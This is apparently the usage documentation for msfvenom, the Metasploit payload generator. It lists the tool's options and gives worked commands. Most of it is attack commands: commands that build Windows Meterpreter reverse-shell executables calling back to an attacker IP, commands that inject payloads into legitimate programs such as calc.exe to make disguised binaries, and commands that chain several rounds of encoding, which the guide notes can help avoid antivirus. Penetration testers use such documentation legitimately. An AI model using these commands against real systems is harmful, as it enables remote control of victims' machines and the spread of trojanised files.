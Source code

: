 To start using msfvenom, first please take a look at the options it supports:
```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

# How to generate a payload
To see what payloads are available from Framework, you can do:
```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:
```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

Syntax example:
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:
```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:
```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

# How to supply a custom template
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

# How to chain msfvenom output
The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

